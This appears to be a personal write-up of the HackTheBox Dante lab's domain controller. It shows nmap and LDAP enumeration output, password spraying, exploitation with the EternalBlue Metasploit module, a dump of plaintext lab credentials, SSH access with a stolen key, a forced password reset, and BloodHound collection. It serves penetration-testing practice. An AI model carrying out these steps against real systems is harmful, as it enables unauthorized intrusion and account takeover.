





# Host [172.16.1.20](http://172.16.1.20):

```
Nmap scan report for 172.16.1.20
Host is up (0.054s latency).
Not shown: 978 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
22/tcp    open  ssh                OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|  3072 1519e666c34ff7807e48f7b99af9ee08 (RSA)
|  256 f3ea12b5fab00c14fb65980f09925c56 (ECDSA)
|_  256 42ca16675ae7a201b0634bf7ed55db90 (ED25519)
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft IIS httpd 8.5
| http-title: 
|  title: \x0D
|_\x0D
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 1 disallowed entry 
|_/ 
|_http-server-header: Microsoft-IIS/8.5
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2022-10-16 00:39:04Z)
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: DANTE.local, Site: Default-First-Site-Name)
443/tcp  open  ssl/http          Microsoft IIS httpd 8.5
| http-title: 
|  title: \x0D
|_\x0D
| http-robots.txt: 1 disallowed entry 
|_/ 
|_ssl-date: 2022-10-16T00:40:56+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DANTE-DC01
| Subject Alternative Name: othername: UPN::S-1-5-21-2273245918-2602599687-2649756301-1003
| Not valid before: 2020-08-07T09:32:48
|_Not valid after:  2025-08-06T09:32:48
|_http-server-header: Microsoft-IIS/8.5
445/tcp  open  microsoft-ds      Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: DANTE)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: DANTE.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=DANTE-DC01.DANTE.local
| Not valid before: 2022-07-18T16:25:33
|_Not valid after:  2023-01-17T16:25:33
| rdp-ntlm-info: 
|  Target_Name: DANTE
|  NetBIOS_Domain_Name: DANTE
|  NetBIOS_Computer_Name: DANTE-DC01
|  DNS_Domain_Name: DANTE.local
|  DNS_Computer_Name: DANTE-DC01.DANTE.local
|  DNS_Tree_Name: DANTE.local
|  Product_Version: 6.3.9600
|_  System_Time: 2022-10-16T00:40:37+00:00
|_ssl-date: 2022-10-16T00:40:56+00:00; +1s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DANTE-DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-os-discovery: 
|  OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|  OS CPE: cpe:/o:microsoft:windows_server_2012::-
|  Computer name: DANTE-DC01
|  NetBIOS computer name: DANTE-DC01\x00
|  Domain name: DANTE.local
|  Forest name: DANTE.local
|  FQDN: DANTE-DC01.DANTE.local
|_  System time: 2022-10-16T01:40:43+01:00
| smb2-security-mode: 
|  302: 
|_    Message signing enabled and required
|_clock-skew: mean: -9m56s, deviation: 24m23s, median: 0s
| smb2-time: 
|  date: 2022-10-16T00:40:41
|_  start_date: 2022-10-15T07:06:15
| smb-security-mode: 
|  account_used: guest
|  authentication_level: user
|  challenge_response: supported
|_  message_signing: required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.81 seconds
```

So far, I've only been able to login with a null session with rpcclient but have not yet been able to find anything useful.:
```
proxychains rpcclient -U "" -N 172.16.1.20
```

Nmap AD LDAP Enum Scan:
```
Host is up (0.083s latency).
PORT    STATE SERVICE VERSION
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: DANTE.local, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|  <ROOT>
|      currentTime: 20221115223320.0Z
|      subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=DANTE,DC=local
|      dsServiceName: CN=NTDS Settings,CN=DANTE-DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=DANTE,DC=local
|      namingContexts: DC=DANTE,DC=local
|      namingContexts: CN=Configuration,DC=DANTE,DC=local
|      namingContexts: CN=Schema,CN=Configuration,DC=DANTE,DC=local
|      namingContexts: DC=DomainDnsZones,DC=DANTE,DC=local
|      namingContexts: DC=ForestDnsZones,DC=DANTE,DC=local
|      defaultNamingContext: DC=DANTE,DC=local
|      schemaNamingContext: CN=Schema,CN=Configuration,DC=DANTE,DC=local
|      configurationNamingContext: CN=Configuration,DC=DANTE,DC=local
|      rootDomainNamingContext: DC=DANTE,DC=local
|      supportedControl: 1.2.840.113556.1.4.319
|      supportedControl: 1.2.840.113556.1.4.801
|      supportedControl: 1.2.840.113556.1.4.473
|      supportedControl: 1.2.840.113556.1.4.528
|      supportedControl: 1.2.840.113556.1.4.417
|      supportedControl: 1.2.840.113556.1.4.619
|      supportedControl: 1.2.840.113556.1.4.841
|      supportedControl: 1.2.840.113556.1.4.529
|      supportedControl: 1.2.840.113556.1.4.805
|      supportedControl: 1.2.840.113556.1.4.521
|      supportedControl: 1.2.840.113556.1.4.970
|      supportedControl: 1.2.840.113556.1.4.1338
|      supportedControl: 1.2.840.113556.1.4.474
|      supportedControl: 1.2.840.113556.1.4.1339
|      supportedControl: 1.2.840.113556.1.4.1340
|      supportedControl: 1.2.840.113556.1.4.1413
|      supportedControl: 2.16.840.1.113730.3.4.9
|      supportedControl: 2.16.840.1.113730.3.4.10
|      supportedControl: 1.2.840.113556.1.4.1504
|      supportedControl: 1.2.840.113556.1.4.1852
|      supportedControl: 1.2.840.113556.1.4.802
|      supportedControl: 1.2.840.113556.1.4.1907
|      supportedControl: 1.2.840.113556.1.4.1948
|      supportedControl: 1.2.840.113556.1.4.1974
|      supportedControl: 1.2.840.113556.1.4.1341
|      supportedControl: 1.2.840.113556.1.4.2026
|      supportedControl: 1.2.840.113556.1.4.2064
|      supportedControl: 1.2.840.113556.1.4.2065
|      supportedControl: 1.2.840.113556.1.4.2066
|      supportedControl: 1.2.840.113556.1.4.2090
|      supportedControl: 1.2.840.113556.1.4.2205
|      supportedControl: 1.2.840.113556.1.4.2204
|      supportedControl: 1.2.840.113556.1.4.2206
|      supportedControl: 1.2.840.113556.1.4.2211
|      supportedControl: 1.2.840.113556.1.4.2239
|      supportedControl: 1.2.840.113556.1.4.2255
|      supportedControl: 1.2.840.113556.1.4.2256
|      supportedLDAPVersion: 3
|      supportedLDAPVersion: 2
|      supportedLDAPPolicies: MaxPoolThreads
|      supportedLDAPPolicies: MaxPercentDirSyncRequests
|      supportedLDAPPolicies: MaxDatagramRecv
|      supportedLDAPPolicies: MaxReceiveBuffer
|      supportedLDAPPolicies: InitRecvTimeout
|      supportedLDAPPolicies: MaxConnections
|      supportedLDAPPolicies: MaxConnIdleTime
|      supportedLDAPPolicies: MaxPageSize
|      supportedLDAPPolicies: MaxBatchReturnMessages
|      supportedLDAPPolicies: MaxQueryDuration
|      supportedLDAPPolicies: MaxTempTableSize
|      supportedLDAPPolicies: MaxResultSetSize
|      supportedLDAPPolicies: MinResultSets
|      supportedLDAPPolicies: MaxResultSetsPerConn
|      supportedLDAPPolicies: MaxNotificationPerConn
|      supportedLDAPPolicies: MaxValRange
|      supportedLDAPPolicies: MaxValRangeTransitive
|      supportedLDAPPolicies: ThreadMemoryLimit
|      supportedLDAPPolicies: SystemMemoryLimitPercent
|      highestCommittedUSN: 139843
|      supportedSASLMechanisms: GSSAPI
|      supportedSASLMechanisms: GSS-SPNEGO
|      supportedSASLMechanisms: EXTERNAL
|      supportedSASLMechanisms: DIGEST-MD5
|      dnsHostName: DANTE-DC01.DANTE.local
|      ldapServiceName: DANTE.local:dante-dc01$@DANTE.LOCAL
|      serverName: CN=DANTE-DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=DANTE,DC=local
|      supportedCapabilities: 1.2.840.113556.1.4.800
|      supportedCapabilities: 1.2.840.113556.1.4.1670
|      supportedCapabilities: 1.2.840.113556.1.4.1791
|      supportedCapabilities: 1.2.840.113556.1.4.1935
|      supportedCapabilities: 1.2.840.113556.1.4.2080
|      supportedCapabilities: 1.2.840.113556.1.4.2237
|      isSynchronized: TRUE
|      isGlobalCatalogReady: TRUE
|      domainFunctionality: 6
|      forestFunctionality: 6
|_      domainControllerFunctionality: 6
Service Info: Host: DANTE-DC01; OS: Windows 2012 R2; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

In conducting password spraying, I found the following credentials for SMB:
172.16.1.20:5985 \[+\] 172.16.1.20:445       - 172.16.1.20:445 - Success: '.\\:' Guest
However, the Guest account is disabled by default, so these credentials are useless.

ldapsearch LDAP Enum:

```
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: ALL
#
#
dn:
currentTime: 20221115223636.0Z
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=DANTE,DC=local
dsServiceName: CN=NTDS Settings,CN=DANTE-DC01,CN=Servers,CN=Default-First-Site
-Name,CN=Sites,CN=Configuration,DC=DANTE,DC=local
namingContexts: DC=DANTE,DC=local
namingContexts: CN=Configuration,DC=DANTE,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=DANTE,DC=local
namingContexts: DC=DomainDnsZones,DC=DANTE,DC=local
namingContexts: DC=ForestDnsZones,DC=DANTE,DC=local
defaultNamingContext: DC=DANTE,DC=local
schemaNamingContext: CN=Schema,CN=Configuration,DC=DANTE,DC=local
configurationNamingContext: CN=Configuration,DC=DANTE,DC=local
rootDomainNamingContext: DC=DANTE,DC=local
supportedControl: 1.2.840.113556.1.4.319
supportedControl: 1.2.840.113556.1.4.801
supportedControl: 1.2.840.113556.1.4.473
supportedControl: 1.2.840.113556.1.4.528
supportedControl: 1.2.840.113556.1.4.417
supportedControl: 1.2.840.113556.1.4.619
supportedControl: 1.2.840.113556.1.4.841
supportedControl: 1.2.840.113556.1.4.529
supportedControl: 1.2.840.113556.1.4.805
supportedControl: 1.2.840.113556.1.4.521
supportedControl: 1.2.840.113556.1.4.970
supportedControl: 1.2.840.113556.1.4.1338
supportedControl: 1.2.840.113556.1.4.474
supportedControl: 1.2.840.113556.1.4.1339
supportedControl: 1.2.840.113556.1.4.1340
supportedControl: 1.2.840.113556.1.4.1413
supportedControl: 2.16.840.1.113730.3.4.9
supportedControl: 2.16.840.1.113730.3.4.10
supportedControl: 1.2.840.113556.1.4.1504
supportedControl: 1.2.840.113556.1.4.1852
supportedControl: 1.2.840.113556.1.4.802
supportedControl: 1.2.840.113556.1.4.1907
supportedControl: 1.2.840.113556.1.4.1948
supportedControl: 1.2.840.113556.1.4.1974
supportedControl: 1.2.840.113556.1.4.1341
supportedControl: 1.2.840.113556.1.4.2026
supportedControl: 1.2.840.113556.1.4.2064
supportedControl: 1.2.840.113556.1.4.2065
supportedControl: 1.2.840.113556.1.4.2066
supportedControl: 1.2.840.113556.1.4.2090
supportedControl: 1.2.840.113556.1.4.2205
supportedControl: 1.2.840.113556.1.4.2204
supportedControl: 1.2.840.113556.1.4.2206
supportedControl: 1.2.840.113556.1.4.2211
supportedControl: 1.2.840.113556.1.4.2239
supportedControl: 1.2.840.113556.1.4.2255
supportedControl: 1.2.840.113556.1.4.2256
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxPercentDirSyncRequests
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxBatchReturnMessages
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: MaxValRangeTransitive
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
highestCommittedUSN: 139845
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
dnsHostName: DANTE-DC01.DANTE.local
ldapServiceName: DANTE.local:dante-dc01$@DANTE.LOCAL
serverName: CN=DANTE-DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Co
nfiguration,DC=DANTE,DC=local
supportedCapabilities: 1.2.840.113556.1.4.800
supportedCapabilities: 1.2.840.113556.1.4.1670
supportedCapabilities: 1.2.840.113556.1.4.1791
supportedCapabilities: 1.2.840.113556.1.4.1935
supportedCapabilities: 1.2.840.113556.1.4.2080
supportedCapabilities: 1.2.840.113556.1.4.2237
isSynchronized: TRUE
isGlobalCatalogReady: TRUE
domainFunctionality: 6
forestFunctionality: 6
domainControllerFunctionality: 6
# search result
search: 2
result: 0 Success
# numResponses: 2
```

After getting a nudge, I totally overlooked the fact that this machine uses SMBv1. In checking, as per the AD Mind Map, this machines is vulnerable to the EternalBlue vulnerability. I was able to exploit this using the following module:
```
windows/smb/ms17_010_psexec
```

Users folder:
```
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0    dir  2013-08-22 08:48:41 -0600  All Users
040555/r-xr-xr-x  8192  dir  2013-08-22 10:01:47 -0600  Default
040777/rwxrwxrwx  0    dir  2013-08-22 08:48:41 -0600  Default User
040777/rwxrwxrwx  8192  dir  2021-01-08 05:26:39 -0700  MediaAdmin$
040555/r-xr-xr-x  4096  dir  2013-08-22 09:39:32 -0600  Public
100666/rw-rw-rw-  174  fil  2013-08-22 09:37:57 -0600  desktop.ini
040777/rwxrwxrwx  8192  dir  2022-11-15 17:09:41 -0700  katwamba
040777/rwxrwxrwx  8192  dir  2020-06-10 05:23:28 -0600  test
040777/rwxrwxrwx  8192  dir  2022-07-19 10:33:59 -0600  xadmin
```

After digging in katwamba's folder, I found the following flag and an interesting looking xlsx file.:


I now have the **employee\_backup.xlsx** file in my root directory in Kali. I went ahead and changed the extension to .zip. I did this because I noticed I ad the option after right clicking it to extract it even though it was technically a .xlsx format. As a result, I ended up getting various folders and found the following URI which may be important and I think I vaguely recall using that in the "support" HTB so I will need to check. I still need to check those xlsx files further somehow.:
```
ext uri="{7626C862-2A13-11E5-B345-FEFF819CDC9F}"
```

I also opened natively in Excel using my school account. I found the following usernames and password. **_The other sheets were empty. These may allow me to access other machines like SQL01_**:


Raw Data:
```
asmith Princess1
smoggat Summer2019
tmodle P45678!
ccraven Password1
kploty Teacher65
jbercov 4567Holiday1
whaguey acb123
dcamtan WorldOfWarcraft67
tspadly RopeBlackfieldForwardslash
ematlis JuneJuly1TY
fglacdon FinalFantasy7
tmentrso 65RedBalloons
dharding WestminsterOrange5
smillar MarksAndSparks91
bjohnston Bullingdon1
iahmed Sheffield23
plongbottom PowerfixSaturdayClub777
jcarrot Tanenbaum0001
lgesley SuperStrongCantForget123456789
```

I went ahead and downloaded the id\_rsa (which is the public key) from katwamba's user folder into my local priv\_keys directory and was able to ssh into the machine.
```
proxychains ssh katwamba@172.16.1.20 -i id_rsa
```

I'm thinking maybe I can upload a powershell script to gather information to then import into bloodhound especially since this is a domain controlled DC. I ran winPEAS and saved the results locally in my root directory as:
```
reszults.txt
```

I also found the following resource in the results of the winPEAS scan which may assist me with gaining admin privs. It seems there is another user '**MediaAdmin$**' I may need to look into.:
<https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files>

I went ahead and created a new password for katwamba with:
```
net user katwamba password123!
```

After failing to use sharphound, I got a nudge and found the correct syntax to use the bloohound-python tool.:
```
proxychains bloodhound-python -d dante.local -v --zip -c All -u katwamba -p password123! -ns 172.16.1.20 --dns-tcp
```

**_bloodhound-python -d \[domain-name\] -v --zip -c All -dc \[domain-controller-ip/name\] -u \[pwned\_user\] -p \[password\] -ns \[ip\_dns\] (--dns-tcp) # use dns-tcp if we sshuttle or chisel_**

Using the above command with the correct syntax, I was able to gather the data I needed for Bloodhound using katwamba's new password:  "password123!" .These files are located in /home/cl3al/Documents/Dante-dc01 (Dante Prolab) directory. After analyzing the data, I found the user "mrb3n" and when analyzing the nide in question, I found the password associated with the user as shown below along with the final flag for the DC.:


mrb3n's password:
```
S3kur1ty2020!
```

I was finally (after some issues) able to connect to the DC via RDP and found the following in the Firefox browser which revealed the internal subnet.:




```
proxychains rdesktop 172.16.1.20
I logged in using Dante\katwamba password: "mynewpass123!
```